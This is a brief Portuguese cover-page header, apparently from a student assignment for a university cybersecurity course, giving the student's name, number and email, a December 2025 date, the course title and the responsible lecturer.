- Guilherme Coelho Simões - 74535 - a74535@ualg.pt

**Data** 
- 
9 de dezembro, 2025

**Unidade Curricular:** 
-
Cibersegurança - Licenciatura em Engenharia de Sistemas e Tecnologias Informáticas

**Docente Responsável da Unidade Curricuar:**
-
 Joel David Valente Guerreiro